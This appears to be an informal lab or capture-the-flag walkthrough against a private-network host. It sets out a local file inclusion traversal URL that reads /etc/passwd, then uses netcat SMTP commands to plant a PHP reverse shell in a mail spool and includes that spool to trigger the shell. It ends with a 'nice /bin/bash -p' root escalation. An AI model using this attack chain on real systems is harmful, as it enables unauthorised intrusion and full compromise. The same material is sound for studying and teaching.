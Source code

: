 so found a cmd injection on port 80. but can only read /etc/passwd using this:
http://192.168.10.9/production/sendcommand.php?out=../../../../../../../../etc/passwd

we use smpt to gain a reverse shell back.
#How?
well first connect over netcat:
>nc 192.168.10.9 25
type:
>helo (sets a name)
type:
>MAIL FROM: hey@mail.org (sets mailing address)
type:
>RCPT TO: www-data (so www-data will recieve the mail)
type:
>DATA (then add the php code from pentestmonkey php rev shell)
type:
>PRESS ENTER, then a dot {.}, then PRESS ENTER AGAIN
type:
>exit(everything is in order to begin exploitation process)

then use the same lfi to read the mail and activate the shell:
>http://192.168.10.9/production/sendcommand.php?out=../../../../../../../../var/spool/mail/www-data

this will activate rev shell

then sudo using nice
>nice /bin/bash -p

boom